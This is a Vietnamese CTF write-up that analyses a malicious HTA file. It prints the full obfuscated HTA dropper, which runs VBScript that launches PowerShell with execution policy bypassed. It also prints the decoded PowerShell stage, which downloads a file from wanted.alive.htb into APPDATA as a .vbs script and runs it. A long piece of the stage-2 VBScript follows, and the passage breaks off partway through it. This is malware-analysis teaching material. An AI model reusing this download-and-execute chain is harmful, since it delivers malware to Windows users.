








# Challenge Wanted Alive

## 1. Đầu vào challenge

Đầu vào challenge cung cấp 1 file:

```text
wanted.hta
```

## Kiến thức ngoài lề

File `.hta` là file HTML có khả năng chạy với toàn quyền của **Windows Scripting Host**, không bị giới hạn trong môi trường sandbox như trình duyệt thông thường. Điều này khiến HTA có thể được dùng để chạy:

- VBScript
- JScript
- hoặc gọi trực tiếp API Windows

để tấn công hệ thống.

Sau khi mở file ra nhận thấy có dấu hiệu của 1 lớp **obfuscate URL encode**.



---

## 2. Decode lớp URL encode

Sau khi decode URL 5 thu được nhiều lớp script lồng nhau kiểu:

```html
<script language=JavaScript>m='<script language=JavaScript>m='<script>
<!--
document.write(unescape("<script language=JavaScript>m='<script>
<!--
document.write(unescape("<!DOCTYPE html>
<meta http-equiv="X-UA-Compatible" content="IE=EmulateIE8" >
<html>
<body>
<sCrIPT lANgUAge="VbScRipT">
DiM                                                                                                                                                                                                                                                                                                                            OCpyLSiQittipCvMVdYVbYNgMXDJyXvZlVidpZmjkOIRLVpYuWvvdptBSONolYytwkxIhCnXqimStUHeBdpRBGlAwuMJRJNqkfjiBKOAqjigAGZyghHgJhPzozEPElPmonvxOEqnXAwCwnTBVPziQXITiKqAMMhBzrhygtuGbOfcwXPJLJSTlnsdTKXMGvpGFYvfTmDaqIlzNTqpqzPhhktykgBvytPUtQnnpprPF                                                                                                                                                                                                                                                                                                                            ,                                                                                                                                                                                                                                                                                                                            PoRkkqjVbkMUvpXeCSCGmsOdJUQlGcAUJUngSiqyuVjPViqbHZeseLYFNCcVukIEhbtljkiiGoWeAZgVghNVJcDhcTBgSDyFQLePsWgOtrScsnNAJtyDlRZAjVhhhHpMuZogCVFdqfUXGCHHWJhGRHGwRIRmwaFPATUzTJaRdFWdyskcEhJsKYUMGjyLSiMARuQhBMMSrUUKbmPBmNYbWukinAYRFHhKaFYvIHlVM                                                                                                                                                                                                                                                                                                                            :                                                                                                                                                                                                                                                                                                                            set                                                                                                                                                                                                                                                                                                                            OCpyLSiQittipCvMVdYVbYNgMXDJyXvZlVidpZmjkOIRLVpYuWvvdptBSONolYytwkxIhCnXqimStUHeBdpRBGlAwuMJRJNqkfjiBKOAqjigAGZyghHgJhPzozEPElPmonvxOEqnXAwCwnTBVPziQXITiKqAMMhBzrhygtuGbOfcwXPJLJSTlnsdTKXMGvpGFYvfTmDaqIlzNTqpqzPhhktykgBvytPUtQnnpprPF                                                                                                                                                                                                                                                                                                                            =                                                                                                                                                                                                                                                                                                                            createoBjEct                                                                                                                                                                                                                                                                                                                            (                                                                                                                                                                                                                                                                                                                            Chr(&H57)                                                                                                                                                                                                                                                                                                                            &                                                                                                                                                                                                                                                                                                                            "SCRIPT.shELL"                                                                                                                                                                                                                                                                                                                            )                                                                                                                                                                                                                                                                                                                            :                                                                                                                                                                                                                                                                                                                            PoRkkqjVbkMUvpXeCSCGmsOdJUQlGcAUJUngSiqyuVjPViqbHZeseLYFNCcVukIEhbtljkiiGoWeAZgVghNVJcDhcTBgSDyFQLePsWgOtrScsnNAJtyDlRZAjVhhhHpMuZogCVFdqfUXGCHHWJhGRHGwRIRmwaFPATUzTJaRdFWdyskcEhJsKYUMGjyLSiMARuQhBMMSrUUKbmPBmNYbWukinAYRFHhKaFYvIHlVM                                                                                                                                                                                                                                                                                                                            =                                                                                                                                                                                                                                                                                                                            "PowErShEll                                 -Ex                                 BYPaSS                                 -NOP                                 -W                                 1                                 -C                                 dEVIcEcrEDEnTIAlDePlOYmENt.EXe                                 ;                                 iex($(iEX('[SYsTeM.TeXt.EnCoding]' [chAr]0X3A [CHAr]0X3A 'uTf8.geTSTring([SYstem.ConVERT]' [chAR]58 [CHAR]58 'fRoMBASE64string(' [CHar]0X22 'JGVhNmM4bXJUICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgPSAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIEFkZC1UeXBlICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgLW1lTUJlckRlZmluSVRJb24gICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAnW0RsbEltcG9ydCgidVJMbU9OLmRsTCIsICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgQ2hhclNldCA9IENoYXJTZXQuVW5pY29kZSldcHVibGljIHN0YXRpYyBleHRlcm4gSW50UHRyIFVSTERvd25sb2FkVG9GaWxlKEludFB0ciAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIFBHLHN0cmluZyAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIENmbXIsc3RyaW5nICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgYVV2eVZCUkQsdWludCAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIGZmWWxEb2wsSW50UHRyICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgb0ZYckloKTsnICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgLW5BTUUgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAiU3V4dFBJQkp4bCIgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAtTmFtRXNQQWNFICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgbklZcCAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIC1QYXNzVGhydTsgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAkZWE2YzhtclQ6OlVSTERvd25sb2FkVG9GaWxlKDAsImh0dHA6Ly93YW50ZWQuYWxpdmUuaHRiLzM1L3dhbnRlZC50SUYiLCIkZU52OkFQUERBVEFcd2FudGVkLnZicyIsMCwwKTtTVEFSdC1zbGVlUCgzKTtzdEFSdCAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICIkZW5WOkFQUERBVEFcd2FudGVkLnZicyI=' [cHar]0X22 '))')))"                                                                                                                                                                                                                                                                                                                            :                                                                                                                                                                                                                                                                                                                            OCpyLSiQittipCvMVdYVbYNgMXDJyXvZlVidpZmjkOIRLVpYuWvvdptBSONolYytwkxIhCnXqimStUHeBdpRBGlAwuMJRJNqkfjiBKOAqjigAGZyghHgJhPzozEPElPmonvxOEqnXAwCwnTBVPziQXITiKqAMMhBzrhygtuGbOfcwXPJLJSTlnsdTKXMGvpGFYvfTmDaqIlzNTqpqzPhhktykgBvytPUtQnnpprPF.rUN                                                                                                                                                                                                                                                                                                                            chR                                                                                                                                                                                                                                                                                                                            (                                                                                                                                                                                                                                                                                                                            34                                                                                                                                                                                                                                                                                                                            )                                                                                                                                                                                                                                                                                                                            &                                                                                                                                                                                                                                                                                                                            OCpyLSiQittipCvMVdYVbYNgMXDJyXvZlVidpZmjkOIRLVpYuWvvdptBSONolYytwkxIhCnXqimStUHeBdpRBGlAwuMJRJNqkfjiBKOAqjigAGZyghHgJhPzozEPElPmonvxOEqnXAwCwnTBVPziQXITiKqAMMhBzrhygtuGbOfcwXPJLJSTlnsdTKXMGvpGFYvfTmDaqIlzNTqpqzPhhktykgBvytPUtQnnpprPF.eXpanDEnVIroNMENtSTRinGs(                                                                                                                                                                                                                                                                                                                            Chr(&H25) & ChrW(&H53) & Chr(&H79) & ChrW(&H73) & ChrW(&H54) & ChrW(&H65) & ChrW(&H6D) & Chr(&H52) & ChrW(&H4F) & Chr(&H6F) & ChrW(&H74) & ChrW(&H25)                                                                                                                                                                                                                                                                                                                            )                                                                                                                                                                                                                                                                                                                            &                                                                                                                                                                                                                                                                                                                            "\SYStEM32\WINdOwSpoweRSheLL\V1.0\PoWERshElL.ExE"                                                                                                                                                                                                                                                                                                                            &                                                                                                                                                                                                                                                                                                                            chr                                                                                                                                                                                                                                                                                                                            (                                                                                                                                                                                                                                                                                                                            34                                                                                                                                                                                                                                                                                                                            )                                                                                                                                                                                                                                                                                                                            &                                                                                                                                                                                                                                                                                                                            cHR                                                                                                                                                                                                                                                                                                                            (                                                                                                                                                                                                                                                                                                                            32                                                                                                                                                                                                                                                                                                                            )                                                                                                                                                                                                                                                                                                                            &                                                                                                                                                                                                                                                                                                                            Chr                                                                                                                                                                                                                                                                                                                            (                                                                                                                                                                                                                                                                                                                            34                                                                                                                                                                                                                                                                                                                            )                                                                                                                                                                                                                                                                                                                            &                                                                                                                                                                                                                                                                                                                            PoRkkqjVbkMUvpXeCSCGmsOdJUQlGcAUJUngSiqyuVjPViqbHZeseLYFNCcVukIEhbtljkiiGoWeAZgVghNVJcDhcTBgSDyFQLePsWgOtrScsnNAJtyDlRZAjVhhhHpMuZogCVFdqfUXGCHHWJhGRHGwRIRmwaFPATUzTJaRdFWdyskcEhJsKYUMGjyLSiMARuQhBMMSrUUKbmPBmNYbWukinAYRFHhKaFYvIHlVM                                                                                                                                                                                                                                                                                                                            &                                                                                                                                                                                                                                                                                                                            CHr                                                                                                                                                                                                                                                                                                                            (                                                                                                                                                                                                                                                                                                                            34                                                                                                                                                                                                                                                                                                                            )                                                                                                                                                                                                                                                                                                                            ,                                                                                                                                                                                                                                                                                                                            0                                                                                                                                                                                                                                                                                                                            :                                                                                                                                                                                                                                                                                                                            SET                                                                                                                                                                                                                                                                                                                            OCpyLSiQittipCvMVdYVbYNgMXDJyXvZlVidpZmjkOIRLVpYuWvvdptBSONolYytwkxIhCnXqimStUHeBdpRBGlAwuMJRJNqkfjiBKOAqjigAGZyghHgJhPzozEPElPmonvxOEqnXAwCwnTBVPziQXITiKqAMMhBzrhygtuGbOfcwXPJLJSTlnsdTKXMGvpGFYvfTmDaqIlzNTqpqzPhhktykgBvytPUtQnnpprPF                                                                                                                                                                                                                                                                                                                            =                                                                                                                                                                                                                                                                                                                            NOThING
SeLF.CloSE
</script>

</body>
</html>"));
//-->
</script>';d=unescape(m);document.write(d);</script>"));
//-->
</script>';d=unescape(m);document.write(d);</script>';d=unescape(m);document.write(d);</script>

```

Điểm quan trọng nhất cần lọc thêm là bên trong khối:

```html
<sCrIPT lANgUAge="VbScRipT">
```

Cần decode đoạn Base64 này.



---

## 3. Decode ra PowerShell stage 1

Sau khi decode ra được:

```powershell
$ea6c8mrT = Add-Type -MemberDefinition '[DllImport("urlmon.dll", CharSet = CharSet.Unicode)] public static extern IntPtr URLDownloadToFile(IntPtr PG, string Cfmr, string aUvyVBRD, uint ffYlDol, IntPtr oFXrIh);' -Name "SuxtPIBJxl" -Namespace nIYp -PassThru;
$ea6c8mrT::URLDownloadToFile(0, "http://wanted.alive.htb/35/wanted.tIF", "$env:APPDATA\wanted.vbs", 0, 0);
Start-Sleep -Seconds 3;
Start-Process "$env:APPDATA\wanted.vbs";
```

### Phân tích

Script này tải file từ:

```text
http://wanted.alive.htb/35/wanted.tIF
```

rồi lưu thành:

```text
%APPDATA%\wanted.vbs
```

sau đó cuối cùng chạy process `wanted.vbs`.

Vậy thu được domain đầu tiên, ánh xạ domain về instance:

```bash
echo '<IP> wanted.alive.htb' | sudo tee -a /etc/hosts
```

Tiếp tục tải file `wanted.tIF` rồi đọc file để hiểu hơn payload hoạt động như nào:

```bash
curl --resolve wanted.alive.htb:<PORT>:<IP> http://wanted.alive.htb:<PORT>/35/wanted.tIF -o wanted_stage2.vbs
```

---

## 4. Phân tích `wanted_stage2.vbs`

Toàn bộ file stage 2. 

```vbscript
private function CreateSession(wsman, conStr, optDic, polyacantho)
    dim pellangaFlags
    dim conOpt 
    dim pellanga
    dim authVal
    dim encodingVal
    dim encryptVal
    dim pw
    dim tout
    ' proxy information
    dim proxyAccessType
    dim proxyAccessTypeVal
    dim proxyAuthenticationMechanism
    dim proxyAuthenticationMechanismVal
    dim proxyUsername
    dim proxyPassword
     
    pellangaFlags = 0
    proxyAccessType = 0
    proxyAccessTypeVal = 0
    proxyAuthenticationMechanism = 0
    proxyAuthenticationMechanismVal = 0
    proxyUsername = ""
    proxyPassword = ""
    
    set conOpt = Nothing

    if optDic.ArgumentExists(NPARA_ENCODING) then
        ASSERTNAL(NPARA_ENCODING)
        ASSERTBOOL optDic.ArgumentExists(NPARA_REMOTE), "The '-encoding' option is only valid when used with the '-remote' option"
        encodingVal = optDic.Argument(NPARA_ENCODING)
        if LCase(encodingVal) = "utf-16" then
            pellangaFlags = pellangaFlags OR wsman.SessionFlagUTF16
        elseif LCase(encodingVal) = "utf-8" then
            pellangaFlags = pellangaFlags OR wsman.SessionFlagUTF8
        else
            ' Invalid!  
            ASSERTBOOL false, "The specified encoding flag is invalid."
        end if
    end if

    if optDic.ArgumentExists(NPARA_UNENCRYPTED) then
        ASSERTBOOL optDic.ArgumentExists(NPARA_REMOTE),     "The '-" & NPARA_UNENCRYPTED & "' option is only valid when used with the '-remote' option"
        'C API will ensure that unencrypted is only used w/ http
        pellangaFlags = pellangaFlags OR wsman.SessionFlagNoEncryption
    end if

    if optDic.ArgumentExists(NPARA_USESSL) then
        ASSERTBOOL optDic.ArgumentExists(NPARA_REMOTE),     "The '-" & NPARA_USESSL & "' option is only valid when used with the '-remote' option"
        pellangaFlags = pellangaFlags OR wsman.SessionFlagUseSsl
    end if

    if optDic.ArgumentExists(NPARA_AUTH) then
        ASSERTNAL(NPARA_AUTH)
        authVal = optDic.Argument(NPARA_AUTH)
        select case LCase(authVal)
            case VAL_NO_AUTH
                pellangaFlags = pellangaFlags OR wsman.SessionFlagUseNoAuthentication
                ASSERTBOOL not optDic.ArgumentExists(NPARA_CERT),     "The '-" & NPARA_CERT & "' option is not valid for '-auth:none'"
                ASSERTBOOL not optDic.ArgumentExists(NPARA_USERNAME), "The '-" & NPARA_USERNAME & "' option is not valid for '-auth:none'"
                ASSERTBOOL not optDic.ArgumentExists(NPARA_PASSWORD), "The '-" & NPARA_PASSWORD & "' option is only valid for '-auth:none'"
            case VAL_BASIC
                'Use -username and -password.  
                ASSERTBOOL optDic.ArgumentExists(NPARA_USERNAME), "The '-" & NPARA_USERNAME & "' option must be specified for '-auth:basic'"
                ASSERTBOOL not optDic.ArgumentExists(NPARA_CERT), "The '-" & NPARA_CERT & "' option is not valid for '-auth:basic'"
                pellangaFlags = pellangaFlags OR wsman.SessionFlagCredUsernamePassword OR wsman.SessionFlagUseBasic
            case VAL_DIGEST
                'Use -username and -password.  
                ASSERTBOOL optDic.ArgumentExists(NPARA_USERNAME), "The '-" & NPARA_USERNAME & "' option must be specified for '-auth:digest'"
                ASSERTBOOL not optDic.ArgumentExists(NPARA_CERT), "The '-" & NPARA_CERT & "' option is not valid for '-auth:digest'"
                pellangaFlags = pellangaFlags OR wsman.SessionFlagCredUsernamePassword OR wsman.SessionFlagUseDigest
            case VAL_KERBEROS
                '-username and -password are optional.  
                ASSERTBOOL not optDic.ArgumentExists(NPARA_CERT), "The '-" & NPARA_CERT & "' option is not valid for '-auth:kerberos'"
                pellangaFlags = pellangaFlags OR wsman.SessionFlagUseKerberos
            case VAL_NEGOTIATE
                '-username and -password are optional.  
                ASSERTBOOL not optDic.ArgumentExists(NPARA_CERT), "The '-" & NPARA_CERT & "' option is not valid for '-auth:negotiate'"
                pellangaFlags = pellangaFlags OR wsman.SessionFlagUseNegotiate
            case VAL_CERT
                '-certificate is mandatory.  
                ASSERTBOOL optDic.ArgumentExists(NPARA_CERT), "The '-" & NPARA_CERT & "' option must be specified for '-auth:certificate'"
                '-username or -password must not be used
                ASSERTBOOL not optDic.ArgumentExists(NPARA_USERNAME), "The '-" & NPARA_USERNAME & "' option is not valid for '-auth:certificate'"
                ASSERTBOOL not optDic.ArgumentExists(NPARA_PASSWORD), "The '-" & NPARA_PASSWORD & "' option is not valid for '-auth:certificate'"
                pellangaFlags = pellangaFlags OR wsman.SessionFlagUseClientCertificate
            case VAL_CREDSSP
                'Use -username and -password.  
                ASSERTBOOL osVersion >= osVista, "The specified '-" & NPARA_AUTH & "' flag '" & authVal & "' has an invalid value."
                ASSERTBOOL optDic.ArgumentExists(NPARA_USERNAME), "The '-" & NPARA_USERNAME & "' option must be specified for '-auth:credssp'"
                ASSERTBOOL not optDic.ArgumentExists(NPARA_CERT), "The '-" & NPARA_CERT & "' option is not valid for '-auth:credssp'"
                pellangaFlags = pellangaFlags OR wsman.SessionFlagCredUsernamePassword OR wsman.SessionFlagUseCredSSP
            case else 
                ASSERTBOOL false, "The specified '-" & NPARA_AUTH & "' flag '" & authVal & "' has an invalid value."
        end select
    end if
   
    if optDic.ArgumentExists(NPARA_USERNAME) then
        ASSERTBOOL not optDic.ArgumentExists(NPARA_CERT), "The '-" & NPARA_CERT & "' option cannot be used together with '-username'"
        set conOpt = wsman.CreateConnectionOptions
        conOpt.UserName = optDic.Argument(NPARA_USERNAME)
        if optDic.ArgumentExists(NPARA_PASSWORD) then
            conOpt.Password = optDic.Argument(NPARA_PASSWORD)
        end if
        pellangaFlags = pellangaFlags OR wsman.SessionFlagCredUsernamePassword
    end if
    
    if optDic.ArgumentExists(NPARA_DEFAULTCREDS) then
        ASSERTBOOL not optDic.ArgumentExists(NPARA_USERNAME), "The '-" & NPARA_USERNAME & "' option cannot be used together with '-defaultCreds'"
        ASSERTBOOL not optDic.ArgumentExists(NPARA_PASSWORD), "The '-" & NPARA_PASSWORD & "' option cannot be used together with '-defaultCreds'"
        'this is only valid if -auth:Negotiate is specified 
        ASSERTBOOL (LCase(optDic.Argument(NPARA_AUTH)) = VAL_NEGOTIATE), "The " & NPARA_DEFAULTCREDS & " option is only valid when the authentication mechanism is " & VAL_NEGOTIATE 
        'C API will ensure this is only used w/ https
        pellangaFlags = pellangaFlags OR wsman.SessionFlagAllowNegotiateImplicitCredentials
    end if
    
    if optDic.ArgumentExists(NPARA_CERT) then
        ASSERTBOOL not optDic.ArgumentExists(NPARA_USERNAME), "The '-" & NPARA_USERNAME & "' option cannot be used together with '-certificate'"
        ASSERTBOOL not optDic.ArgumentExists(NPARA_PASSWORD), "The '-" & NPARA_PASSWORD & "' option cannot be used together with '-certificate'"
        set conOpt = wsman.CreateConnectionOptions
        conOpt.CertificateThumbprint = optDic.Argument(NPARA_CERT)
        if optDic.ArgumentExists(NPARA_AUTH) then
            ASSERTBOOL (LCase(optDic.Argument(NPARA_AUTH)) = VAL_CERT), "The " & NPARA_CERT & " option is only valid when the authentication mechanism is " & VAL_CERT
        end if
        '-auth might be missing, in which case we assume -a:Certificate
        pellangaFlags = pellangaFlags OR wsman.SessionFlagUseClientCertificate
    end if
    
    if optDic.ArgumentExists(NPARA_PROXYACCESS) then
        ASSERTNAL(NPARA_PROXYACCESS)
        if conOpt Is Nothing then
            set conOpt = wsman.CreateConnectionOptions
        end if
        proxyAccessTypeVal = optDic.Argument(NPARA_PROXYACCESS)
        select case LCase(proxyAccessTypeVal)
            case VAL_PROXY_IE_CONFIG
                proxyAccessType = conOpt.ProxyIEConfig
            case VAL_PROXY_WINHTTP_CONFIG
                proxyAccessType = conOpt.ProxyWinHttpConfig
            case VAL_PROXY_AUTODETECT
                proxyAccessType = conOpt.ProxyAutoDetect
            case VAL_PROXY_NO_PROXY_SERVER
                proxyAccessType = conOpt.ProxyNoProxyServer
            case else 
                ASSERTBOOL false, "The specified '-" & NPARA_PROXYACCESS & "' field '" & proxyAccessTypeVal & "' has an invalid value."
        end select
    end if    
    if optDic.ArgumentExists(NPARA_PROXYAUTH) then
        ASSERTNAL(NPARA_PROXYAUTH)
        ASSERTBOOL optDic.ArgumentExists(NPARA_PROXYACCESS),     "The '-" & NPARA_PROXYAUTH & "' option is only valid when used with the '-" & NPARA_PROXYACCESS & "' option"
        if conOpt Is Nothing then
            set conOpt = wsman.CreateConnectionOptions
        end if
        proxyAuthenticationMechanismVal = optDic.Argument(NPARA_PROXYAUTH)
        select case LCase(proxyAuthenticationMechanismVal)
            case VAL_BASIC
                proxyAuthenticationMechanism = conOpt.ProxyAuthenticationUseBasic
            case VAL_DIGEST
                proxyAuthenticationMechanism = conOpt.ProxyAuthenticationUseDigest
            case VAL_NEGOTIATE
                proxyAuthenticationMechanism = conOpt.ProxyAuthenticationUseNegotiate
            case else 
                ASSERTBOOL false, "The specified '-" & NPARA_PROXYAUTH & "' flag '" & proxyAuthenticationMechanismVal & "' has an invalid value."
        end select
    end if
    if optDic.ArgumentExists(NPARA_PROXYUSERNAME) then
        ASSERTBOOL optDic.ArgumentExists(NPARA_PROXYAUTH),     "The '-" & NPARA_PROXYUSERNAME & "' option is only valid when used with the '-" & NPARA_PROXYAUTH & "' option"
        proxyUsername = optDic.Argument(NPARA_PROXYUSERNAME)
    end if
    if optDic.ArgumentExists(NPARA_PROXYPASSWORD) then
        ASSERTBOOL optDic.ArgumentExists(NPARA_PROXYUSERNAME),     "The '-" & NPARA_PROXYPASSWORD & "' option is only valid when used with the '-" & NPARA_PROXYUSERNAME & "' option"
        proxyPassword = optDic.Argument(NPARA_PROXYPASSWORD)
    end if

    if optDic.ArgumentExists(NPARA_PROXYACCESS) then
        on error resume next
        responseStr = conOpt.SetProxy(proxyAccessType, proxyAuthenticationMechanism, proxyUsername, proxyPassword)
        ASSERTERR conOpt, polyacantho
        on error goto 0
     end if

    if optDic.ArgumentExists(NPARA_NOCACHK) then
        'C API will ensure this is only used w/ https
        pellangaFlags = pellangaFlags OR wsman.SessionFlagSkipCACheck
    end if

    if optDic.ArgumentExists(NPARA_NOCNCHK) then
        'C API will ensure this is only used w/ https
        pellangaFlags = pellangaFlags OR wsman.SessionFlagSkipCNCheck
    end if

    if optDic.ArgumentExists(NPARA_NOREVCHK) then
        'C API will ensure this is only used w/ https
        pellangaFlags = pellangaFlags OR wsman.SessionFlagSkipRevocationCheck
    end if

    if optDic.ArgumentExists(NPARA_SPNPORT) then
        'this is only valid if -auth is not specified or if -auth:Negotiate or -auth:Kerberos is specified 
        if optDic.ArgumentExists(NPARA_AUTH) then
            ASSERTBOOL (LCase(optDic.Argument(NPARA_AUTH)) = VAL_NEGOTIATE OR LCase(optDic.Argument(NPARA_AUTH)) = VAL_KERBEROS), "The " & NPARA_SPNPORT & " option is only valid when the authentication mechanism is " & VAL_NEGOTIATE & " or " & VAL_KERBEROS
        end if
        pellangaFlags = pellangaFlags OR wsman.SessionFlagEnableSPNServerPort
    end if

    on error resume next
    set pellanga = wsman.CreateSession(conStr, pellangaFlags, conOpt)
    ASSERTERR wsman, polyacantho
    on error goto 0

    if optDic.ArgumentExists(NPARA_TIMEOUT) then
        ASSERTNAL(NPARA_TIMEOUT)
        tout = optDic.Argument(NPARA_TIMEOUT)
        ASSERTBOOL IsNumeric(tout), "Numeric value for -timeout option is expected"
        pellanga.Timeout = optDic.Argument(NPARA_TIMEOUT)        
    end if
    
    set CreateSession = pellanga
end function

private function delinquir(epithetar, pellanga, amendoal, uncial, polyacantho)
    dim filter
    dim dialect
    dim e
    dim res
    dim formattedText
    dim flags
    
    flags = 0
     
    if amendoal.ArgumentExists(NPARA_FILTER) then
        filter = amendoal.Argument(NPARA_FILTER)
        dialect = URI_WQL_DIALECT
    end if
    
    if amendoal.ArgumentExists(NPARA_DIALECT) then
        dialect = amendoal.Argument(NPARA_DIALECT)
    end if
    
    If LCase(dialect) = "selector" Then
        dialect = "http://schemas.dmtf.org/wbem/wsman/1/wsman/SelectorFilter"
    End If
    If LCase(dialect) = "http://schemas.dmtf.org/wbem/wsman/1/wsman/selectorfilter" Then
